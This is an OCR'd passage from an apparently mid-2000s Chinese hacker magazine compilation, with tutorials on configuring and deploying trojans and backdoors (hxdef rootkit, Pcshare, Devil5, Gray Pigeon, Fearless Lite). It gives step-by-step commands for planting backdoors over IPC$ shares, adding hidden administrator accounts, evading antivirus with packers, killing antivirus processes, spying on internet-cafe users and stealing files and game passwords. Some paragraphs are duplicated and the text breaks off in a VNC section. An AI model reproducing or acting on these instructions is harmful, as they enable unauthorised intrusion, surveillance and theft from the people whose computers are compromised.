@="\"%1\" %*"

TXT文件关联恢复为
[HKEY_CLASSES_ROOT\txtfile\shell\open\command]
@="\"%1\" %*"

再将启动项如下键值删除
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\SysArchive.exe
```

最后在system下找到SysArchive.exe文件，将它删除，重启电脑，这样Darksky_Server就被我们删除掉了。

希望我的文章能对读者朋友们跨进木马的大门或进一步认识木马起到一定的促进作用，那小鱼儿就感到很高兴了。好了，我女朋友还在等我过去呢，大家下次再见了，拜拜！（文中所谈到的反弹木马Darksky_Server在光盘中有收录）

## 黑客守卫者 hxdef

hxdef 是今年 10 月 20 日才公布的一款针对 Windows NT/2000/XP 系统的一个功能强大的 backdoor 程序，中文译为“黑客守卫者”，最新版本为 0.8.4。

该软件说明中的介绍如下：

> Hacker Defender 是一款内核级后门软件，用户可通过本软件隐藏文件、进程、系统服务、系统驱动、hxdef084 保存在注册表中的键名及键值、打开的端口以及虚构可用磁盘空间。程序同时也在内存中伪装它所做的改动，并且隐身地控制被隐藏进程。程序安装隐藏后门，注册隐藏系统服务并且安装系统驱动。该后门技术允许植入 Reductor。

### 一、文件组成

该软件解压后会生成一个 hxdef084 目录，该目录中 bdcli084.exe 为客户端连接程序，hxdef084.exe 为主服务程序，hxdef084.2.ini 及 hxdef084.ini 为 hxdef084 的两个默认配置 ini 文件，readmecz.exe、readmecn.exe 及中文说明.exe 这三个文件为程序的使用说明文件。关于 hxdef084 的设计思想及主要功能，我们通过说明文件可以清楚的了解到，在此感谢程序的作者 Holy_Father、Ratter/29A，因为他们的努力，使这世上又多出了一个优秀的工具程序，还要感谢将程序说明翻译成中文的 luoluo，因为他的努力，使得这款工具程序可以被更多的人所掌握。

### 二、使用简介

关于 hxdef084 的具体使用，在使用说明中已经非常详细地写出来了，因此在某些方面我将一笔带过。

hxdef084 的使用方法主要有两种：

1. hxdef084 inifilename
2. hxdef084 [开关]

开关选项主要有以下几种：

- -:installonly 安装服务，但是不运行
- -:refresh 读取 ini 文件，更新设置
- -:noservice 不安装服务，正常运行
- -:uninstall 从内存卸载 hxdef，同时断开所有的后门连接，以及终止 hxdef 服务

我想，复杂的是 ini 文件的配置，hxdef084 的 ini 配置文件一共包括九大部分的内容，分别为：

- Hidden Table（隐藏文件、目录和进程的列表）
- Root Processes（Root 进程）
- Hidden Services（隐藏服务和驱动文件列表）
- Hidden RegKeys（隐藏注册表键名列表）
- Hidden RegValues（隐藏注册表键值列表）
- Startup Run（随系统自启动的程序列表）
- Free Space（硬盘符和虚构的可用空间列表）
- Hidden Ports（隐藏端口）
- Settings（设置）

在说明文件中给出了具体说明以及一些简单例子，大家可以看看。

下边是 hxdef084.ini 的内容，“**”后是我的简单注释。

```
[Hidden Table]  **隐藏hxdef*.* 以及 rcmd.exe 文件
hxdef*.*
rcmd.exe
[Root Processes] **Root进程为hxdef*.*及rcmd.exe
hxdef*.*
rcmd.exe
[Hidden Services]  **隐藏服务
HackerDefender*.
HackerDefender*
[Hidden RegKeys]  **隐藏键名
HackerDefender084、
LEGACY_HACKERDEFENDER084、
HackerDefender084
** HackerDdlenderDrv084 以及
LEGACY_HACKERDEFENDERDRV084、
LEGACY_HACKERDEFENDER084
**这也是hxdef084的四个缺省的注册键名。
HackerDefenderDrv084
LEGACY_HACKERDEFENDERDRV084
[Hidden RegValues]
**隐藏键值
[Startup Run]
[Free Space]
[Hidden Ports]
**隐藏端口，缺省为空，大家可以参见说明
**文件中对于隐藏端口的描述来进行设置自己想要隐藏的端口。
[Settings]
Password=hxdef-rule  **hxdef084默认的口令为hxdef-rule，在这儿我们可以改成自己想要的。
BackdoorShell=hxdef?.exe
FileMappingName=._-=[Hacker Defender]=-._
ServiceName=HackerDefender084
ServiceDisplayName=HXD Service 084
ServiceDescription=powerful NT rootkit
DriveName=HackerDefenderDrv084
DriverFileName=hxdefdrv.sys

[Comments]
其实对于新手来说，使用默认设置即可。当然，倘若你想定制自己的 ini 配置文件，也是很好的。在上边的 ini 文件中，大家都看到了，包括了许多特殊字符，如：“|”、“<”、“>”、“\”、“/”等。据说明文件介绍，这样做是为了躲过反病毒系统的监视。因此如果我们要自己定制 hxdef084的 ini，这些特殊字符可随自己的喜好设定，可加可不加。
hxdef054 还有一个特殊功能——Redirectr 转向器，或许我们可将这个功能简单的想像成跳板功能或代理功能。关于 Redirectr 的具体使用，请大家参照使用说明文件中的描述。
```

### 三、实战演练

下边我们来看一下 hxdef084 在远程电脑上是如何使用的？通过实例，我们更容易掌握它的使用，远比看使用说明直观！

第一步、上传必须的文件，包括hxdef084.exe和hxdef084.ini，使用ipc$或tftp都可以。

```
G:\hacker\win2000\backdoor\hxdef
084>net use \61.*.*.131\ipc$ "2258" /user:"administrator"
命令成功完成。
G:\hacker\win2000\backdoor\hxdef
084>copy hxdef084.exe \61.*.*.131\admin$
已复制        1 个文件。
G:\hacker\win2000\backdoor\hxdef
084>copy hxdef084.ini \61.*.*.131\admin$
已复制        1 个文件。
```

如图1所示，文件已成功上传了。接下来我们看看如何安装并运行这个后门服务。


第二步、安装并运行服务。为了能成功的执行命令，我们可以使用at命令来远程执行，或使用telnet远程登录目标主机，或使用远程溢出程序来得到对方的一个cmd shell。

```
C:\WINNT>hxdef084.exe hxdef084
```

这是第一种使用方法，但我使用客户端连接时却没有成功，提示说没有安装服务。没办法，只好继续使用第二种方法。

```
C:\WINNT>hxdef084 -:installonly
```

仅仅安装服务，但不运行。

```
C:\WINNT>hxdef084 -:noservice
```

不安装服务，正常运行，如图2。


第三步、使用客户端bdcli084.exe连接目标服务器。在“G:\hacker\win2000\backdoor\hxdef084\bdcli084 61.*.*.131 80 hxdef-rules”这儿，我们使用80端口来进行连接。根据使用说明，通过80端口建立的连接不会留下任何记录，而如果使用21、25等端口，就会留下中断退出的记录。另外，使用80端口从某种意义上讲来，也实现了穿越防火墙的功能，hxdef-rules为hxdef084配置文件中默认使用的连接口令。

很快，客户端就成功建立了连接，并直接得到了一个cmd shell（图3）。


最后，我在这个shell下成功建立了一个后门帐号，表明客户端连接后得到的cmd shell权限为administrator权限（图4）。


### 四、结语

本文有些简单，这是因为hxdef084的说明文件中已经讲得很详细了，希望大家好好阅读几遍程序的使用说明，肯定会将hxdef084掌握得很好，因为hxdef084比起小榕的BITS毫不逊色。当你能熟练的使用它了，就会明白！

## 20CN 远程控制软件——专业的反弹端口木马

小鱼儿

20CN远程控制软件pcshare2.0beta1是2003年11月推出的一个反弹木马的最新版。笔者试用后感觉是个较专业的木马，完全没有多余和花哨的功能。打开它的客户端，一共只有七类操作功能，全都是很实用的，后面将会给大家详细讲解。

Pcshare木马十分小巧，程序只有20K，完全可以做成网页木马，让别人一不留神就中了这个反弹木马，对方中了后你就可以看到他的电脑屏幕，可关闭他的QQ、网页，偷走他的文件，窃取他的密码……而且服务端没有加密，大家可自行加壳修改，让任何杀毒软件无法查杀！

Pcshare的程序风格简洁、实用、够用、小巧、稳定，第一次看到它时你可能觉得没甚没用，但用过一次后一定会深深喜欢上它，因为你对一台电脑要用到的操作Pcshare几乎都提供了。下面我就给大家实际操作一番这个木马，如果你是一个菜鸟，pcshare对你来说是个最简单、实用的木马，因为它的配置使用超简单，而且可直接控制和查看到网吧的电脑，即使你是一个玩木马的老手，也会从下文发现更多让你惊喜的地方！

### 一、下载和配置

配置工作！

Pcshare可到木马帝国（http://www.mmbest.com）的下载区下载，也可在配套光盘中找到这个木马软件。至于配置方面，菜鸟听了一定高兴得要死，这可能是目前出现的反弹端口木马中配置最简单、最弱智的一个，只需单击两下鼠标左键即可完成全部。

首先，我们打开Pcshare的客户端，即PcShare.exe这个文件，打开后如图1所示。左边的“已连接的客户列表”和中间的“客户属性”都是空白，因为我刚启动客户端，网上已经安装的服务端还没来得及连接我，所以要等几秒钟。

很快，我的客户端中就出现了2台电脑（图2）。其中一台电脑的IP和端口分别为127.0.0.1和4403，客户注释写的是“我的电脑”，这台就是我自己的电脑，用鼠标点击一下这个IP，最上面一排彩色按钮中除了“删除客户”的字是灰色的，其他都是黑色字体，这说明“我的电脑”这台电脑是不属于客户电脑。另一个IP和端口分别是61.183.64.45和4404，客户注释写的是“YJC”，“YJC”就是这台电脑的主机名，用鼠标点到这台电脑上时，按钮中的“删除客户”变成黑色字体，说明可操作，所以这台就是我们可以控制的对方电脑。


以上是我对打开客户端时出现的各个地方进行的解释，接下来才是对木马服务端进行配置。菜鸟朋友们不要看下面文字较多就觉得配置复杂，以下我主要是针对几种不同上网方式和使用需求进行的说明，最后我会只用一句话帮菜鸟总结这次木马的配置，真的不骗你！

先点击最上面的“生成客户”按钮（稍微说明一下，反弹木马是由服务端主动连接客户端的，由于大多数人的习惯，仍然把被控制端称作服务端，主控端称作客户端。但也有人按连接方式来称呼，把主动连接的称为客户端，这样就有了上面的“生成客户”一说），此时会弹出一个配置框，上面有三个地方可修改，最重要的部分是“本机地址”，这个是反弹成功与否的重要的条件。让我们感到安心的是，这个木马可自动判断填写本机的IP地址，拨号上网的电脑一般无需修改本机地址，但如果是ADSL或网吧的电脑，可能会有两个IP地址（图3），一个是192.168.0.1，另一个是61.183.64.45，前者是局域网地址，后者是公网IP地址或网吧主机地址。


网吧的电脑由于本身处在局域网中，无法对网吧外的电脑使用这个纯反弹木马，所以绝不能使用后一个IP地址，只能用前一个IP地址。如果是ADSL拨号的电脑，就应该填后一个IP地址，这样才能控制任何局域网和公网上的电脑，端口可以自己修改。另，“是否在托盘上显示图标”最好不要勾上，否则你发给别人的木马运行后会在对方机器的右下角出现一个“不明”图标，很容易暴露。

本机地址除了填写由木马自动判断的本机IP外，还可填写一类固定的动态解析域名，如以前著名的dns2go之类。此类域名的作用是通过在本机安装一个小程序，每次开机随机启动，用来使一个固定的二级域名（如http://fish.dns2go.com）不断指向本机的动态IP，以后访问该域名就可达到访问本机IP的效果。因为即使你的IP变了，域名也不会变，这使一些拨号上网没有静态IP的用户也能尝到“动态IP”的甜头。让我们高兴的是，20CN的这个远程控制软件已为我们免费提供了这样一种服务，在生成客户端的小窗口上有个指向申请地址的连接，点击后进入该网站即可申请一个个人帐号（图4），申请过程和信箱差不多。申请成功后，要到申请时所填的信箱里收信，然后激活刚申请的域名，这样才能正常使用。


然后到图4的页面下载客户端，下载后无需安装，直接运行，填入你刚才注册的账号和密码登陆即可（图5）。登陆成功后，你的电脑屏幕右下角会出现一个蓝色电脑的小图标，可以知道域名解析是否成功！


此时，我们可以ping一下这个域名，看看是否解析成功（图6）？如果ping到的IP和本机目前的IP一致，说明解析成功。然后还是到先前生成服务端的窗口中，将申请的域名填入“本机地址”（图7），最后点击“生成”，木马文件夹内就会多出一个psclient.exe文件，这个就是木马的服务端，即我们要发给对方运行的文件。对方运行这个文件后，他的电脑就会出现在客户端左边的客户列表中，这样你就可控制它了，设置了动态域名解析的电脑，就算重起后自身IP动态变化了，也一样可继续控制服务端电脑。


上面笔者对控制者自身和可能出现的几种情况都作了较全面的分析，下面再来兑现初时的承诺吧！一句话，服务端的最简配置方法就是：点击“生成客户”，取消“是否在托盘上显示图标”上的勾，再点击“生成”。如此这般即可完成配置。

使用以上配置方法的前提条件，仍然是使用反弹端口木马的条件：控制者不能处于局域网中，如果是，就只能控制本局域网内的电脑。上面的最简配置完成后，就可将你生成的psclient.exe发给别人运行。当然，由于你没有设置动态域名解析，没有静态IP的你重启后将无法再连上你刚才连的电脑。

### 二、木马实战

最激动人心的木马实战操作终于来了！对方是一台网吧中的


## 牧马记

普通电脑，被我远程安装了刚才配置好的木马服务端（你问我怎么远程安装的？我用网页木马发给别人的，不信？我用QQ直接把木马程序传给另人运行总可以吧，哈哈！开玩笑的，木马其实是传给一个我好好的朋友的，他帮我测试，呵呵！）。

### 简单连接控制

言归正传，对方在网吧运行木马后，几秒钟后他电脑的IP就出现在我客户端左边的窗口中了（图8），IP是219.149.233.138，客户注释是41，看来他是那个网吧的第41号机。


双击他的IP地址或单击他的IP地址后点“管理客户”，就可开始连接他的电脑了，连接过程中会出现一只小兔？熊？如图9。它跑啊跑，上面同时开始倒计时，一般在十几秒钟后这个卡通消失，我们面前出现对方的远程桌面，是个很典型的网吧电脑桌面，还可看到电脑前的那位朋友正在和人聊QQ（图10）。屏幕监视的速度非常快，对方聊天时敲打的每个字我们基本上都可在第一时间捕捉到，感觉这个木马的截屏速度虽然比不上专业的remote-anything，但也差之不远。图11是我监视到他正在打开网页的一瞬间。


在屏幕监视中，“屏幕刷新”的按钮始终是凹进去的，但“屏幕保存”的按钮却是灰色无法点击的，这时如果我们点一下“屏幕刷新”，就会发现“屏幕保存”按钮变成彩色可操作的了，这样我们可以把当前屏幕的一瞬间保存下来作为……纪念？证据？哈哈！随便你怎么想吧。

光看不动大家是不是觉得很没劲？没关系，要想过一把黑客瘾，让对方惊叫一番也不过是举手之劳，点一下“鼠标控制”，当它凹进去之后，我的鼠标就可以在对方桌面上随意点击了，关掉对方的QQ和网页或者给他打开一个意想不到的网站？在他的QQ上帮他聊几句？这些都可以做到，此时的你，就像坐在他的电脑前一样自由自在，可以随心所欲！

### 远程文件浏览

好了，他的桌面我们玩得差不多了，接下来让我看看他的电脑里都有些什么好东西吧。我们从最上面的一排按钮切换到目录浏览这一控制区，随着一下刷新，面前立刻出现了再熟悉不过的资源管理器界面，一层层展开文件夹，感觉和本地没什么不同，我进入它的游戏目录，嗯，游戏还真不少（图12）。真让人有下载里面东西的冲动啊！


但现在的木马除了网络神偷可一次下载对方整个目录外，其他木马下载对方电脑里的文件时，都只能一次下载一个文件，这样我想下载一个游戏目录的话是不是会累死啊？可接下来我惊喜的发现，当我用鼠标右键点击一个文件夹时，居然发现后台下载的按钮不是灰色的（图13），这难道意味着我们可以一次下载对方整个文件夹吗？点击“后台下载”，真的出现文件夹保存的提示了（图14）。


选择保存在我D盘的根目录下，确定后到我的D盘看一下，那里果真躺着一个刚下回来的文件夹“cac”（图15）。

既然有下载就有上传，在文件和文件夹的空白处点击鼠标右键，就出现后台上传文件的选项（图16），我在我的电脑中选择一个文本文件准备上传（图17）。

上传后我们发现对方电脑的目录中并没有出现我上传的文件（图18），难道上传失败？

先别忙着下结论，让我先刷新一下再说（图19）。

刷新后发现那个文件果然上传成功了，如图20。

后台上传是用来上传一些不需要立即执行的文件，比如我们觉得20CN远程控制的功能不够用，还想得到这台电脑上的传奇以及其他一些游戏的帐号和密码，那我自然要上传一个能够记录游戏密码的木马了，这时我们可选择“上传运行文件”这一项（图21）。这样就达到了上传和执行上传程序一步完成的目的。


图14


图15


图16


图17


图18


图19


图20


图21


图22

如果我们想打开对方电脑中已存在的文件，操作如下，右键单击你要打开的程序，选择“远程运行”后又出现两个选择：“正常运行”和“隐藏运行”。两种选择的作用顾名思义，就不说了。我选择用“正常运行”方式打开对方电脑上的一个log.txt文件（图22），打开后立刻切换到屏幕控制界面查看，这时对方电脑的桌面上果然出现了一个刚被打开的log文件（图23）。


图23

### 改进控制类

管理进程的功能是每个木马的必备功能，因为我们要用这个来关闭对方电脑上的一些程序，最常用的是关闭对方的病毒防火墙和网络防火墙，以便我们能进行下一步入侵（比如上传游戏木马）。

我们将控制窗口切换到进程列表，刷新进程后我找到将要终止的瑞星病毒防火墙的进程ravmond.exe，右键单击它选择“终止进程”（图24），立刻这个进程就从进程列表消失了。我们就可以用这种方法陆续关掉想关掉的程序进程，以便入侵更容易。


图24

### 获取窗口列表

窗口列表便于我们很直观地管理对方电脑上的当前窗口。切换到“窗口列表”，我们可以看到很详细的列表内容（图25），不仅可看到他正在浏览的网页，还可看见QQ聊天内容等，这和其他木马只能简单看到QQ窗口和IE窗口的个数有着天壤之别！


图25

如果你想对他当前的某个窗口进行操作可以鼠标单击你要操作的窗口，比如我想让他正在看的一个音乐网址最小化，就可进行图26所示的操作，当然你可以选择上面的关闭窗口来关掉他当前正在看的这个网页。

## 牧马记


### 5.1 服务管理

服务管理和窗口和进程的操作方法类似，都是鼠标右键单击选择相应的操作即可，非常简单(图27)。顺便提一下，服务管理是Win2000/WinXP/Win2003才会有的管理选项，如果对方电脑是Win98，那么服务管理这一项就是空白的，因为Win98是没有服务管理的。


### 5.2 注册表修改

这个做得就很漂亮了，而且操作也很人性化，基本上和本地的注册表操作差不多，展开注册表，选择一个键值(图28)，双击该键值即弹出修改窗口(图29)，我们可以直接进行修改，然后保存。


### 5.3 键盘记录

这个功能是我唯一不满意的一个，基本上用处不大，不能进行指定关键字的记录，只能简单老实记录一下键盘的敲打，这样对分析和取得有效记录的难度大大加大，虽然是垃圾功能，但为了本文的完整性，我还是简单说一下使用方法：切换到键盘记录区，点击“开始记录”后即可记录键盘的操作了，要等到停止记录后才会看到刚才记录的内容，如图30。


### 5.4 超级终端

回到pcshare主控界面，就是我们一开始等待客户列表的界面，选择一台我们要控制的电脑IP后，点击“超级终端”，这时会弹出我们熟悉的command界面，如果对方是2000以上的系统，这个界面是十分有用的，为什么？稍微懂点net命令的朋友都会知道在这个界面下最梦寐以求的结果是什么，哈哈，当然是给自己建立一个超级用户啦，在对方的CMD下输入net user，我们看到对方的用户列表了(图31)。
接下来就不用我说了吧？老练一点的朋友还可以配合前面的注册表管理功能在对方电脑上建议一个隐藏的超级用户！由此可见，20CN远程控制软件不愧是为专人侵而制作的超级木马！


## 三、删除木马

这个木马有点美中不足的就是不带远程卸载功能，使我们在永远不想控制对方或者撤掉入侵痕迹时无法删除对方机器上的木马，虽然木马本身没有给我们提供一个这样的操作按钮，但是我们仍然完全可以利用它给我们提供过的功能来远程手动删除这个木马。因为这个木马的启动方式只是利用了在注册表的run下面增加一个启动键值，所以我们要删除“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\2.exe”这个键值，重启动后这个木马就不会再自动加载了，2.exe就是这个木马的名字，默认是psclient，我将他改名为2.exe发送给对方的，所以他在注册表中的名字也相应修改了。
远程手动删除方法如下：在pcshare客户管理的“注册表编辑”界面，找到该木马在run下面的键值将其删除(图32)，然后切换到“进程列表”，终止2.exe这个木马进程(图33)，关掉pcshare客户管理器，回到最初的主控界面，这时我们可发现这台被我刚


黑客X档案2008 2004年合订本(下册)

## 牧马记

删除木马的电脑已经不在“已连接的客户列表”中了，它上面的木马程序到目前为止已被彻底“远程卸载”了，本地手动删除和远程删除方法完全一样。

|  |  |  |  |
|---|---|---|---|
| ![icon] | 696 | 7 | 8 | CA.exe |
| ![icon] | 1616 | 14 | 8 | Fx.exe |
| ![icon] | 3972 | 12 | 8 | msmgs.exe |
| ![icon] | 4724 | 8 | 8 | QQ.EXE |
| ![icon] | 8208 | 20 | 8 |  |
| ![icon] | 2340 | 30 | 8 | MyIE.exe |
| ![icon] | 1660 | 5 | 8 | Master.exe |
| ![icon] | 2600 | 2 | 8 | conime.EXE |
| ![icon] | 2652 | 5 | 8 | Viewcon.exe |


好了，到这里这个超级反弹木马的所有功能都给大家介绍完了，相信等你拿到这个木马时一定会迫不及待地想试试！赶快行动吧！（注：文中的Pcshare木马已收录进本期光盘）

## 魔鬼5号+灰鸽子VIP

## 尽可能打造永久肉鸡

KAWEN

有很多朋友都问我：“影子鹰安全网络怎么天天提供肉鸡呀？我每次都来晚了，肉鸡不是被别人换了密码就是登陆不上去。”想一想，确实是这个问题，要不然也不会叫肉鸡了。除去那些非常慢的肉鸡和那些个人电脑没什么利用价值的肉鸡不算，现在我们谈谈如何可以让你的肉鸡更加长久的保持下去。

### 主角出场

首先，我们要介绍一下今天出场的两位主角：
第一位：魔鬼 5 号（Devil5）。此软件的厉害之处在于：它是线程插入后门程序，可将后门插入到系统进程之中，想删除都删除不掉。够狠吧？
第二位：灰鸽子 VIP1.1（感谢鸽子的免费提供），此版本的好处在于：只用一个端口来传输所有通讯数据！无需知道服务端IP，自动上线功能让服务端自动上线报道！同时具有三种自动上线方式：
（1）可用任何二级转向域名。
（2）DNS 解析域名。
（3）网页文件。
当然还有其它的一些功能，如无需第三方软件可开启 SOCK5、HTTP 等，下面我们就开始打造我们的永久肉鸡了。

### 打造永久肉鸡

先找到一只肉鸡，如果你不想没事找事的话，千万不要对国内的主机下手，至于如何找呢？你可以到影子鹰安全网络去免费拿，当然也可以自己扫，这是个很简单的事，不在本文的讨论范围之内。
然后我们打开魔鬼 5 号开始进行配制

（图 1），魔鬼 5 号共有三个程序，分别是：后门程序、后门消除程序、后门配置程序。配制好后点击“配制”按钮，然后含有后门端口的线程插入后门就配制好了。我是将此后门注入到 SVCHOST.EXE 中，当然你也可以注入到 iexplore.exe 或其它什么进程中。


现在，我们要将配制好的线程插入后门上传到你的肉鸡上，至于如何上传，以下几种方法给大家参考了：
1. 利用 IPC 上传至对方计算机中，如图 2。
```
net use \\218.*.*.*\ipc$ "" /user:"administrator"
copy f:\devil5.exe \\218.*.*.*\admin$\system32\
```


2. 利用流光的种植者或其它远程种植软件将我们的后门种植上去，如图 3。
3. 在本地运行中输入 \\218.*.*.*\admin$，如图 4。


大家可任选其一，这样我们的后门就上传到肉鸡中了。除去第二种方法用种植者上传会自动在六十秒后运行指定程式，其它两种方法还需要大家自己手动运行魔鬼 5 号（Devil5），方法很多，推荐用

## 牧马记

OPENTELNET远程开一个TELNET端口，上去后直接运行，这样又保险又简便。好了，还记得我们刚才对魔鬼5号（Devil5）的配制吗？我们选择的是1234端口，我们现在连接一下看看。如图5，我输入的是dir >cnhacker.cn，意思是查看cnhacker.cn是我们在配制时所设定的密码。这个线程插入后门程序需要你在运用每一个系统命令时都加上>cnhacker.cn，以此类推，我们还可在肉鸡上加上超级用户等。

```
net user kawen cnhacker.cn /add >cnhacker.cn
net localgroup administrators kawen /add >cnhacker.cn
```

至此，我们已在肉鸡的进程中加入了我们的后门，魔鬼5号（Devil5）还会每隔十分钟自动搜索你所设置的进程名称，然后把后门插入到里面。看，多方便呀！如果第二天你突然发现连不上肉鸡的1234端口该怎么办呢？在这里我们就需要灰鸽子的帮忙了。现在我们就需要配制一下灰鸽子，然后将其也放到我们的肉鸡上运行。首先，打开灰鸽子并且进入到配制界面（图6），我们先要注册一个免费的域名，这样就算对方是动态IP 也拿我们没办法了，灰鸽子可是会自动上线的哦！图7中我已成功注册了一个域名，不过大家也许从我标注中发现了我的IP是内网的，所以在内网中肉鸡是不会上线的。如果想在内网中让肉鸡也自动上线，大家还需要第三方软件才可以实现，此不在我们讨论范围之内，虽然我是在内网但并不影响大家的学习使用。


图6


图7

我们继续往下，注册完免费域名后我们就要开始配制灰鸽子了，灰鸽子同时具有三种自动上线方式（图8）。不过我们只用选择利用二级域名自动上线报道这种方式就可以了，填上刚才我们申请成功的域名，选择一下图标，然后就可以生成自动上线服务器了。


图8


图9

可能有些朋友生成服务器后杀毒软件会报警，在这里建议大家用ASPACK加一下壳。至此灰鸽子就已经配置好了，现在我们利用前面讲过的几种方法将灰鸽子上传到肉鸡上吧，这可是双重保险了，灰鸽子本身就具有后门功能现在又多了一个魔鬼5号（Devil5）线程插入后门，呵呵`尽我们最大的力气保证肉鸡的长久性。当然你的肉鸡最好是一只“肥”肉鸡值得你这么做才行。OK！回到灰鸽子的主界面，一分钟之后你就会发现肉鸡上线了（图9），当然你也可用捆绑软件将魔鬼5号（Devil5）和灰鸽子服务端捆在一起，以后只要你一打开灰鸽子，肉鸡如果上线了，它就会欢笑着向你报告了。图形界面、命令行方式一个也不担误。

这就是“魔鬼5号+灰鸽子VIP=尽可能打造永久肉鸡”的步骤，两种保险尽可能的保证了肉鸡的存活期。当然，还有很多种方法要靠我们多多实践才能发现，这次就讲到这里吧！

（文章中所涉及的软件：魔鬼5号、灰鸽子VIP、ASPACK已收录到本期光盘中）。


## 洋马免杀系列之 Fearless Lite

钟毅榕

在前几期的《黑客X档案》里面，我给大家介绍了一款国外的木马Beast，最近进了一下该木马作者的主页，发现他又出了一款小巧好用的迷你型木马Fearless Lite V1.01。下载来试用了一下感觉还真的很不错，好东西不敢独享，下面就由我来给大家介绍一下它吧！


木马文件到硬盘解压缩以后，我们可以看到有五个文件：Client.exe（客户端控制程序）、ServerBuilder.exe（服务端配置程序）、std_server.exe、inj_server.exe（这两个文件都是木马的服务端）和upx.exe（EXE文件压缩工具）。这几个文件。

需要注意的是：两个服务端程序中std_server.exe是标准的不带进程插入功能的服务端，而inj_server.exe则是带有进程插入功能的。

接着我们运行ServerBuilder，可以看到一个色彩很简单的配置界面，如图1。这时候我们点击配置窗口右上角的“...”按钮，在弹出的对话框中选择木马目录下的std_server.exe或者inj_server.exe（选择哪个取决于你要不要进程插入的功能），然后按“read”按钮就可以读出木马默认的配置了接下来我给大家介绍一下各个选项的设置：

本马文件到硬盘解压缩以后，我们可以看到有五个文件：Client.exe（客户端控制程序）、ServerBuilder.exe（服务端配置程序）、std_server.exe、inj_server.exe（这两个文件都是木马的服务端）和upx.exe（EXE文件压缩工具）这几个文件。

Server ID：如果你使用了通知功能，那么该选项是用来在标识计算机的。如果你用过密码盗号软件的朋友会知道，盗号软件都有一个邮件通知功能，而在配置的时候都会要你输入计算机标识，以方便你知道这些密码是哪台计算机发送来的，和该木马的这个功能是一样的，在这里我们可以按照自己的需要设置。

ICQ Notification：如果勾上“Enable ICQ”选项的话，我们便可以使用ICQ上线通知功能了。在文本框中输入你的ICQ号

那么该选项是用来在标识计算机的。如果你用过密码盗号软件的朋友会知道，盗号软件都有一个邮件通知功能，而在配置的时候都会要你输入计算机标识，以方便你知道这些密码是哪台计算机发送来的，和该木马的这个功能是一样的，在这里我们可以按照自己的需要设置。

226

黑客X档案2003 2004年合订本(下卷)


## 牧马记

码后，以后中木马的主机一上线，木马便会乖乖地通过 ICQ 告诉你哦（By the way，不知道大家是否留意了文本框里面那个默认的 ICQ 号码 7115422 了吗？嘿嘿，这就是作者的 ICQ 号码哦）。


**Injection Technology:** 相信大家都看得出来，这里就是设置进程插入的地方。我们可以选择把木马的进程插入到系统的应用程序里面，有插入到系统进程“Explorer”，IE 浏览器“Internet Explorer”和计算器“Calculator”三个选择。要注意的是，如果我们一开始是读取 std_server.exe 来进行设置的话，那么这个选项是不可用。

**Main:** 这里设置的是木马的一些常规设置。例如“Port”设置的是木马监听的端口，“Name”设置的是木马进程的名称，“RegKey”设置的是木马在注册表启动项的名称等。

最后，我们点击“Build”按钮，程序便会在木马目录下生成一个 new_server.exe 服务端程序文件（如果我们在设置界面上选了“Automatically compress with UPX”的话，那么程序就会自动用 UPX 来压缩该文件，压缩后的服务端程序大小只有 29.5KB，非常小）。

### 三、客户端

打开 Client.exe 后，可以见到图 2 小巧的控制界面，在这里我们输入好服务端的 IP 地址和端口就可以连接上了。接着我们可以选择“menu”菜单，该木马的所有功能都包含在这个菜单里面了，我分别给大家介绍一下。

**Options and Server Info:** Options 用于停止或者卸载的木马服务端，而 Server Info 菜单则用于显示当前木马服务端的配置内容。

**Process Manger:** 顾名思义，这就是进程管理器，如图 3。


打开该菜单后，点击窗口上的“Refresh”按钮刷新一下，被控制端的计算机上的所有进程就列出来了。如果我们看哪个进程不顺眼，我们只要点击 Refresh 旁边“Kill”按钮就可以了。


**BAT Scripting and Remote Shell:** BAT Scripting 用来运行各种 Bat 命令，我在本机上做了一下试验，在这里运行了一个“net user rickyboy /add”命令，虽然没有任何显示，但在 CMD 下查看了一下，果真成功添加了一个 rickyboy 用户。而 Remote Shell 相当于得到远程计算机的一个 shell，可以运行各种系统命令，如图 4，并且命令的结果会在该窗口回显出来。


**File Manger and Transfer info:** 这是木马的文件管理器，如图 5。运行它以后点击“Drives”按钮，便会把远程计算机的所有分区列出来。而如果我们对着右边的目录文件窗口按右键的话，会出现一个操作菜单，在该菜单中，我们可以进行新建 / 删除文件或文件、下载 / 上传文件等操作，如图 6。而 Transfer info 则是在下载或者上传文件到远程计算机时，用来显示传输进度等信息的窗口。


1. 升级杀毒软件进行查杀，相信在大家看到这本杂志的时候，杀毒软件已经可以查杀它了。
2. 查看注册表的启动项，看看有没有可疑的程序，因为该木马是会在注册表添加启动项目的。
3. 利用端口查看程序（如 Fport），查看与各个端口连接的程序有没有可疑的地方。如果觉得有可疑的地方，那么用木马本身的客户端连接，真的中了的话，用上面文章介绍的木马自带的卸载功能清除便可。

### 四、后话

其实这个木马的不足之处也很明显，例如没有用到反弹技术，功能也相对比较少了。不过作为一个后门木马，这个小巧实用的 Fearless Lite 还是一个不错的选择，有兴趣的朋友赶快去试试吧！

（文章中所涉及的马 Fearless Lite V1.01 已收录到本期光盘中）


## 牧马记

## VNC in Linux 实战篇

Liso

说起 VNC 想必大家都已经知道了(看过 x 档案的朋友都应该知道)。VNC 是一款很不错的远程控制软件，它可以实现不同操作系统之间的相互控制，比如说在 Windows 下的用户可以控制 Linux 的机器或者 SunOS 的机器，反之也可以。更为重要的是它开放了源代码，用户可以根据自己的需要来修改 VNC。记得有一期 x 档案上介绍过在 Windows 下的如何使用 VNC，但是没有提到使用浏览器来控制机器，由于 VNC 内建了 Java Web 接口，在浏览器中输入 http://IP:5800 就可以实现对机器的控制了，如图 1。但是今天我们的主角是 Linux 版本的 VNC。所使用的 VNC 的 Linux 版本为 3.3.3r2。它包括 vncserver、vncpasswd、vncviewer、Xvnc 这 4 个文件和一个名为 classes 的文件夹。


下面我们来看看这些文件的用途是什么：
Vncserver 是一个由 perl 编写的安装脚本。
Vncpasswd 是用来设置密码的。
Vncviewer 也就是 VNC 的客户端。
Xvnc 是 VNC 的服务端 X Server。
classes 文件夹的文件是用来实现 Java VNC viewer 功能的。
下面我们具体来看一下 Linux 版本的 VNC 是如何安装使用的。

1. 将 VNC 中的 4 个文件(vncserver、vncpasswd、vncviewer、Xvnc ) 拷贝到 /usr/bin 下。
2. 在 /usr/local/ 下面建立一个名为 VNC 的文件夹将 classes 文件夹拷贝到该文件夹下，使用如下命令(Linux 中很菜的命令)。
